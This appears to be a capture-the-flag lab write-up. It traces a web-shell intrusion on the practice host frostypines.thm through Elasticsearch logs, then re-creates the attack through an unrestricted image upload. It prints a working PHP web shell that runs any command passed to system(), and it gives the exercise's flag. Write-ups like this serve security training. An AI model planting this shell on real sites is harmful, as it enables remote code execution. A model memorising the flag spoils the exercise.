

# Day 3: Even if I wanted to go, their vulnerabilities wouldn't allow it.

I access the elasticsearch URL, and apply filter `message:"shell.php"` on `clientip`,`message`, `agent`, `verb`, `response` and `request`, I see the path to `shell.php` in the `request` column as `/media/images/rooms/shell.php` and I also see the client IP trying to access the web shell.


I then try to re-create the attack for the RED team, I go to `frostypines.thm` and then visit the URL `frostypines.thm/admin/` and I gain admin access.

After that I go to add new rooms section and see a page where I can add details about rooms to the website with photos allowed as input.


Instead of uploading a photo I become a hecker and instead upload `shell.php` file which will allow RCE.

This was the code for it:-

```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="text" name="command" autofocus id="command" size="50">
<input type="submit" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['command'])) 
    {
        system($_GET['command'] . ' 2>&1'); 
    }
?>
</pre>
</body>
</html>
```

after uploading this file I go to, `http://frostypines.thm/media/images/rooms/shell.php` for RCE and I see a prompt which can execute linux commands for me.





I do a quick `ls` and see multiple files available including `flag.txt`, I `cat` it and get the flag.

flag: `THM{Gl1tch_Was_H3r3}`
